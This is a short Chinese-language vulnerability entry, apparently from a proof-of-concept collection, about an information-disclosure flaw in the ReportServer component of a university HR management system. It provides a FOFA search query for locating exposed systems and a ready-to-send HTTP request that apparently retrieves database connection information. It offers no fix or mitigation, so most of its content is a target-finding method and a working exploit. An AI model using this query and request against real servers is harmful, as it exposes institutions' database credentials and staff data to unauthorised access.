

# 一、漏洞简介
高校人力资源管理系统ReportServer存在敏感信息泄露漏洞

# 二、影响版本
+ 高校人力资源管理系统

# 三、资产测绘
+ fofa`body="FM_SYS_ID" || body="product/recruit/website/RecruitIndex.jsp"`
+ 特征


# 四、漏洞复现
```java
GET /ReportServer?op=Fr_server&cmd=Sc_getconnectioninfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
```



